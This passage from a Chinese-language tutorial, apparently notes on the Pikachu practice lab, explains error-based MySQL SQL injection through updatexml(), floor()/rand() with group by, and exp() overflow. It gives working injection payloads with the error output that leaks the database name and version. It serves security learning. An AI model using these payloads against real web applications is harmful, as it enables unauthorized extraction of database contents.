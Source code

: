 **语法**：`UPDATEXML (xml_document, XPathstring, new_value)`

- xml_document，文档名称。

- XPathstring (Xpath格式的字符串)，做内容定位。

- new_value，String格式，替换查找到的符合条件的值。

 **注意**：一次返回值最大为32位,当数据库名大于32,需要结合其他方式使用（可以使用substr())；

 第二个参数应该为合法的xpath路径，否则会在引发报错的同时将传入的参数进行输出

```sql
1' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#

# 页面显示
XAPTH syntax error '~pikachu~'
```

#### 3、`floor()`函数

**功能**：floor()函数用于返回一个数的向下取整值。利用这个函数，可以制造出一个数学错误（如除零错误）。

主要报错原因为：count()+rand()+group_by()导致主键重复。

因为floor(rand(0)*2)的重复性，导致group by语句出错。group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。

```sql
1'union select 1,count(*) from information_schema.tables group by concat(0x7e,database(),0x7e,floor(rand(0)*2))#

# 页面显示
Duplicate entry '~pikachu~1' for key" 


SELECT 1/(SELECT count(*) FROM information_schema.tables WHERE table_schema = database());
#解释：在这个例子中，count(*)用于统计当前数据库的表数量，如果表数量为零，将触发除零错误，从而导致数据库报错返回表信息。
```

#### 4、`exp()`函数

**功能**：是计算自然对数底数 e 的幂次（即 e^{x}）。

当传递一个大于709的值时，函数exp()就会引起一个溢出错误。

SQL语法中，存在一个取反符号`~`,它会对每一个二进制位进行取反。也就是说，如果某个位是1，它就会变成0；如果是0，就会变成1。

```sql
SELECT EXP(999999999999999999);  -- 超大数值，触发错误
# ERROR 1690 (22003): DOUBLE value is out of range in 'exp(999999999999999999)'


select exp(~(select * from(select version())x));

# 页面显示
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '5.5.29' from dual)))'

```
